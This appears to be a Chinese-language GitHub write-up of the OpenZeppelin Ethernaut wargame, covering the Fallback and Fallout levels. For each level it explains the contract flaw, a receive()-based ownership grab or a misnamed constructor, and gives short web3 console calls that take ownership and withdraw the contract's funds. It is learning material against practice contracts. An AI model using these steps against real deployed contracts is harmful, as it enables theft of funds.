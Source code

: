 # Ethernaut Challenges Writeup
## 项目介绍

[Ethernaut](https://ethernaut.openzeppelin.com/) 是 OpenZeppelin 开发的一个 Web3/Solidity 的游戏，通过闯关的方式来学习智能合约安全。每一关都是一个需要被攻破的智能合约，通过发现和利用合约中的漏洞来通过挑战。本项目记录了suu的每日解题过程。仅供参考，欢迎交流。

个人感觉的难度：
- [Easy] - 基础概念和简单漏洞
- [Medium] - 需要理解合约机制和常见攻击方式
- [Hard] - 复杂的漏洞利用和高级概念

## 08.01.2025

## 01. Fallback ✅ [Easy]

这关主要考察 fallback 函数的知识点：
- `receive()` 函数在合约接收 ETH 时被调用
- `fallback()` 函数在调用不存在的函数时被调用
- 通过发送少量 ETH 并调用 `contribute()` 函数来满足条件
- 最后通过 `receive()` 函数获取合约所有权

攻击步骤：
1. 调用 `contribute()` 并发送少量 ETH (<0.001)
```js
await contract.contribute({value: web3.utils.toWei('0.0001')});
```

2. 直接向合约发送 ETH 触发 `receive()`
```js
await contract.sendTransaction({value: web3.utils.toWei('0.0001')});
```

3. 调用 `withdraw()` 提取所有 ETH
```js
await contract.withdraw();
```

## 02. Fallout ✅ [Easy]

这关主要考察早期 Solidity 版本的构造函数问题：
- 老版本使用与合约同名的函数作为构造函数
- 如果函数名称与合约名不完全一致,就变成了普通函数
- 攻击者可以直接调用该函数获取所有权

攻击步骤：
1. 直接调用 `Fal1out()` 函数获得合约所有权
```js
await contract.Fal1out();
```

2. 调用 `collectAllocations()` 提取资金
```js
await contract.collectAllocations();
```
